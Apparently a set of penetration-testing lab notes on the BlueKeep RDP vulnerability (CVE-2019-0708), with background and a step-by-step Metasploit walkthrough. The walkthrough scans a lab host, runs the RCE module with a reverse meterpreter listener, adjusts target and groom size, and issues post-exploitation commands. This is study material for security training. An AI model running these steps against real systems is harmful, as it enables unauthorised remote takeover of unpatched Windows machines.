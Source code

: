 - BlueKeep (CVE-2019-0708) is the name given to an RDP vulnerability in Windows that could potentially allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target is a part of.
- The BlueKeep vulnerability was made public by Microsoft in May 2019.
- The BlueKeep exploit takes advantage of a vulnerability in Windows RDP protocol that allows attackers to gain access to a chunk of kernel memory consequently allowing them to remotely execute arbitrary code at the system level without authentication.
- The access gained through the exploitation of this vulnerability is privileged in nature since the payload is executed in the kernel memory-space.
- Microsoft released a patch for this vulnerability on May 14th, 2019 and has urged companies to patch this vulnerability as soon as possible.
- At the time of discovery, about 1 million systems worldwide were found to be vulnerable.
- The BlueKeep vulnerability affects multiple versions of Windows:
	- Windows XP
	- Windows Vista
	- Windows 7
	- Windows Server 2008 & R2

Exploitation
- A few prerequisites for this exploit are:
	- for RDP to be enabled,
	- And for network level authentication to be disabled.
- The BlueKeep vulnerability has various illegitimate PoC's and exploit code that could be malicious in nature. It is therefore recommended to only utilize verified exploit code and modules for exploitation.
- The BlueKeep exploit has an MSF auxiliary module that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.
- The BlueKeep exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.
- Note: Targeting Kernel space memory and applications can cause system crashes.

Practical Demonstration
- `sudo nmap -p 3389 10.10.10.7`
- `msfconsole`
- `search bluekeep`
- `use auxiliary/scanner/rdp/cve_2019_0708_bluekeep`
- `set RHOSTS 10.10.10.7`
- `run`
- `search bluekeep`
- `use exploit/windows/rdp/cve_2019_0708_bluekeep_rce`
- The exploit module we are using here only works for targets running Windows on the x64 architecture.
- `show options`
- `set LHOST 10.10.10.10.`
- `set LPORT 4444`
- `set RHOSTS 10.10.10.7`
- `exploit`
- Exploitation using this module would generally fail if we try to run the exploit with the default configuration.
- `show targets`
- `set target 2`
- `exploit`
- The default groom size for the exploit is set to 250MB, which we may need to modify, depending on the RAM allocation of the target system. If this size is set too high, it might cause the target system to crash.
- Meterpreter Session
	- `sysinfo`
	- `getuid`